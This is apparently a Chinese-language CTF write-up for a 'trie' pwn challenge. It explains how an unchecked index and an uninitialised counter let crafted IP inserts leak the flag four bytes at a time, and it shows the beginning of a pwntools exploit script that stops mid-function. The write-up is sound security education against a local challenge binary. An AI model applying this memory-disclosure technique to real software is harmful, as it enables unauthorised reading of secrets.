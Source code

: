 

本题漏洞点在于对search 找到的end 下标没做限制，且会将flag 读入到secret处，当v3为0x40 时，就会泄露secret 处的值（每次泄露四字节），也就是flag。

![image-20240115002736091](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111758.png)

![image-20240115002811398](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111759.png)

注意到每次insert 时并没有对tot 初始化，那么就给了我们机会让v3的值大于0x40

![image-20240115003033484](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111760.png)

首先新增两个ip "0.0.0.0" "255.255.255.255"，这样会使tot 的值达到0x40

当ip 的bit为0时，对应的trie 下标为偶数，当ip 的bit 为1时，对应的trie 下班为奇数。

insert 函数首先从下标0开始寻找，如果trie对应的下标处值为0，那么就赋值为 tot，如果有值，那么将该下标赋值给v4，根据v4*2+ip_bit作为下标得到trie[index] 的值，进行判断。

第一次add "0.0.0.0"时，trie[0],trie[2],trie[4]...,trie[62] 被赋值为++tot，

第二次add "255.255.255.255"时，会先判断trie[1]，由于其值为0，那么trie[1] 就会赋值为0x21，然后接着判断trie[67]，trie[69],......,trie[127]

此时tot 的值为0x40(也就是trie[127]的值为0x40），那么我们show("255.255.255.255")，就会找到trie[127]处的值0x40，打印end[0x40] 处的值，即flag 的前四字节。

![image-20240115004343814](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111761.png)

那么我们如果让show找到trie[index] 处的值为0x41，0x42，0x43，......呢？我们只需add 一个ip，其ip值和（"0.0.0.0"或 "255.255.255.255" 其中之一）有1，2，3，...... 位的偏差即可

如果add 128.0.0.0 那么就能打印end[0x41]处的值，add 192.0.0.0 那么就能打印end[0x42] 处的值

如果add 127.255.255.255 那么就能打印end[0x41]处的值，add 63.255.255.255，那么就能打印end[0x42] 处的值

```python
from pwn import*
context.arch='amd64'
#context.log_level='debug'
p=process('./trie')
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def mydbg():
    gdb.attach(p)
    pause()

def menu(choice):
    ru("4. Quit.\n")
    sl(str(choice))

def add(ip,hop):
    menu(1)
    ru("Input destination IP:")
    sl(ip)
    ru("Input the next hop:")
    sl(hop)
def show(ip):
```